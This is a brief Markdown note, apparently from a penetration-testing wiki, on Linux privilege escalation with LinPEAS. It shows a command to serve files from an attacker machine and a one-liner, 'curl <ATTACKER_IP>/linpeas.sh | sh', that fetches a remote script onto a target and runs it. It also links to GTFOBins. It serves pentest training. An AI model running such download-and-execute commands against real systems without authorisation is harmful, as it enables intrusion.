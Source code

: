 ```yaml
---
description: Tools and methodology for Linux PrivEsc
---
```


# Linux

## 🔥 LinPEAS - Linux Privilege Escalation Awesome Script

When escalating privileges, one of the **fastest** ways to transfer and execute an enumeration script like `linpeas.sh` is using Python’s built-in HTTP server combined with `curl`.

***

#### &#x20;**📌 Attacker: Start a Simple Web Server**

Run the following command on your **attacking machine** (Kali, Parrot, etc.) to serve files from the current directory:

```bash
python3 -m http.server 80
```

#### &#x20;**📌 Victim: Download & Execute LinPEAS**

On the **target machine**, download and execute LinPEAS in one step:

```bash
curl <ATTACKER_IP>/linpeas.sh | sh
```

## 🛑 GTFOBins

[https://gtfobins.github.io/](https://gtfobins.github.io/)
